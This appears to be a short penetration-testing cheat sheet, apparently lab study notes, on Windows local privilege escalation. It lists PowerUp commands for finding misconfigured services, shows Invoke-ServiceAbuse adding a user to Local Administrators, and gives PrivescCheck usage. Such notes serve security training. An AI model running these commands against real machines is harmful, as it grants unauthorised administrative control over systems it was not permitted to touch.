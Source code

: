 ## Local Privilege Escalation

### PowerUP
---

#### Find Vulnerable Services
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
##### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```
This will make user member of the Admins group. Just need to relog session and that's it.

### PrivescCheck
---
Syntax:
```powerview
Invoke-PrivescCheck [[-Report] <string>] [[-Format] {TXT | HTML | CSV | XML}] [-Extended] [-Experimental] [-Force] [-Audit] [-Silent]  [<CommonParameters>]
```
Usage:
```powershell
C:> . PrivescCheck.ps1
C:> Invoke-PrivescCheck
```
  


